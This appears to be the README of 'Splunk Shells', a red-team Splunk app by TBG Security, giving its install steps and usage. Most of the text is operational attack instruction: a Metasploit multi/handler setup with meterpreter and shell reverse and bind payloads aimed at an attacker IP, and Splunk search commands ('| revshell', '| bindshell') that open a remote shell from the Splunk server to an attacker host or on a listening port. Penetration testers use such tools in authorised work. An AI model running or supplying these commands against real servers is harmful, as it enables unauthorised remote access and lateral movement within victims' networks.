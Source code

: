 Splunk Shells App
Version 1.2

TBG Security
Ryan Hays

This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.

This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to
interact with the server and expand influence within the environment.

# Install
Download the release from https://github.com/MrJester/splunk_shells/releases/download/1.0/splunk_shells.tar.gz

Navigate to the "Manage Apps" and click on "Install app from file"

![Alt text](appserver/static/splunk_apps.png?raw=true "Optional Title")

Click on "Choose File" and select the downloaded release archive.

![Alt text](appserver/static/splunk_install.png?raw=true "Optional Title")

Once it is installed you will have to restart Splunk

![Alt text](appserver/static/splunk_restart.png?raw=true "Optional Title")

For Splunk v6.5 ONLY
Once Splunk is restarted click on Permissions for the splunk_shells app. Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

![Alt text](appserver/static/splunk_permissions.png?raw=true "Optional Title")

# Usage
Using each of these shells can be done from the Search and Reporting app. Setup a handler first then execute one of the following searches:

## Setup Metasploit Handler

use multi/handler<br>

Pick one of the below

set payload python/meterpreter_reverse_tcp<br>
set payload python/meterpreter_bind_tcp<br>
set payload python/shell_reverse_tcp<br>
set payload python/shell_bind_tcp<br>

set LHOST <ATTACKER IP><br>
set LPORT <ATTCKER PORT><br>
exploit -j<br>

## Bind Shell

'| bindshell SHELLTYPE PORTNUMBER' 

SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)

PORTNUMBER - Specify the port you want the bind shell to listen on. If you do not specify a port number it defaults to 8888


## Reverse Shell

'| revshell SHELLTYPE ATTACKERIP ATTACKERPORT'

SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)

ATTACKERIP - Specify the IP that you want to shell to be sent back to. 

ATTACKERPORT - Specify the port you want the shell to be sent back to.
